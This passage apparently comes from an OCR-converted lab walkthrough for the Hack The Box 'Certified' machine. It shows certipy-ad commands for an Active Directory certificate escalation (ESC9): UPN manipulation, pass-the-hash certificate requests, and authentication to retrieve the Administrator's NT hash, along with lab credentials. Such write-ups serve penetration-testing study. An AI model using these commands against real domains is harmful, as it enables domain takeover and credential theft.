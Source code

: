 9.  **[SKIP THIS]{.mark}** Once the UPN is changed, **request a
    certificate to that UPN** .

> **RUN:** **certipy-ad req -username ca_operator@certified.htb
> -hashes**
>
> **b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template**
>
> **CertifiedAuthentication -debug**
>
> **INFO:** The -ca and -template should be set to correct values which
> can be found from the certipy
>
> find command as mentioned above.
>
> This will create a certificate ( administrator.pfx ), which can be
> used to authenticate to the
>
> Domain Controller as the Administrator user.

10. **[SKIP THIS]{.mark}** Before that, the ca_operator user\'s UPN must
    be changed to the original one.

> **RUN: certipy-ad account update -username
> management_svc@certified.htb -hashes**
>
> **a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn
> ca_operator@certified.htb**

11. Now, if we **try to authenticate with the certificate**, we will
    **receive the NT hash of the Administrator**

> **RUN:** **certipy-ad auth -pfx administrator.pfx -domain
> certified.htb -ns 10.10.11.41**

12. **NO SECURITY EXTENSION -- ESC9**

> **Source:**
> https://github.com/b4rdia/HackTricks/blob/master/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.md
>
> Use TOOL Certipy to **obtain CERTIFICATE INFORMATION of
> judith.mader@certified.htb and obtain CERTIFIED-DC01-CA, configuration
> of the CERTIFICATE AUTHORITY (CA)**
>
> **RUN:** **certipy-ad find -u judith.mader@certified.htb -p judith09
> -dc-ip 10.10.11.41**
>